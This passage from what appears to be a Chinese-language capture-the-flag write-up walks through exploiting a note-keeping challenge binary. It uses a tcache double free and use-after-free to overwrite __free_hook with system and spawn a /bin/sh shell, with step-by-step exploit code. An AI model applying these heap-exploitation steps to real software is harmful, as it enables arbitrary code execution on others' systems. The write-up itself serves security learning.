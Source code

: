 最簡單的方法是，我把tcache填滿(一定要)，然後用free(a)→free(b)→free(a)的順序產生double free
```python
for i in range(1, 0xa):
    add_note(i, 0x10)

for i in range(1, 0x8):
    del_note(i)

del_note(8)
del_note(9)
del_note(8)
```
此時的heapinfo會變成:
![image](https://hackmd.io/_uploads/H1GGgGM86.png)

接著我們把tcache清空後再繼續add_note就會把fastbin的free chunk搬到tcache中
```python
add_note(8, 0x18)
```
![image](https://hackmd.io/_uploads/B1ErzMM8T.png)

接著我們寫free_hook address到note #8，這樣的話，tcache的順序就會變成下圖:
```python
write_note(8, p64(free_hook))
```
![image](https://hackmd.io/_uploads/rktIXGMIp.png)

此時我們就把free chunk變成free_hook的地址，我們只不斷的add_note，就可以把tcache的free chunk要回來進行寫入，也就是寫system address:
```python
bin_sh = u64(b'/bin/sh\x00')
add_note(9, 0x10)
write_note(9, p64(bin_sh))
add_note(10, 0x10)
add_note(11, 0x10)
write_note(11, p64(system_addr))
```
![image](https://hackmd.io/_uploads/SydnNzMIa.png)

最後的結果如上圖，會發現note #11已經變成==0x7f900aa8ae48==，這個就是`__free_hook`的位址，進去看發現已經被我們寫入system address，這個時候我們只要把含有`/bin/sh\x00`的note #9 free掉，就可以開shell了
### 方法二: 一般的寫入
這一個方法比較方便，也和double free沒關係，反正我們只要利用UAF的特性，也可以把free chunk的fd改掉，再用像前面的方法就可以開shell

下面的建構就是先開兩個note，然後free掉，此時我們就可以利用UAF的漏洞把free chunk的fd改掉，結果如下圖
![image](https://hackmd.io/_uploads/B1ohIMz86.png)
```python
add_note(1, 0x18)
add_note(2, 0x18)
del_note(2)
del_note(1)
write_note(1, p64(free_hook) + p64(0) * 2)
```
